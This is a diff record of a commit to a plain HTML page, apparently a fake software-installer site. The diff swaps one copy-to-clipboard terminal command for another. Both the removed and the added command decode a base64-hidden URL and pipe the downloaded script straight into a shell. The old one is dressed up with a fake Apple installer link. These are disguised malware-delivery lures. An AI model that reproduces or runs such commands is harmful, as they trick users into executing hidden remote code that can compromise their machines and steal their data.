

Before and after one commit to tv5d7dh7/net111, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 556-716 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -338,7 +338,7 @@
     <div class="terminal-body">
         <div class="terminal-content">
             <div class="terminal-command-wrapper">
-                <code id="commandToCopy" class="terminal-command terminal-font">echo "Apple-Installer: https://apps.apple.com/hidenn-gift.application/macOsAppleApicationSetup4a21w41e5.dmg" && curl -kfsSL $(echo 'aHR0cHM6Ly9sZWVncmFlbWUuY29tL2dldG5vdGlvbg=='|base64 -D)|zsh</code>
+                <code id="commandToCopy" class="terminal-command terminal-font">/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9sZWVncmFlbWUuY29tL2dldG5ldGZsaXg= | base64 -d))"</code>
             </div>
             <button
                 onclick="copyCommand()"
```
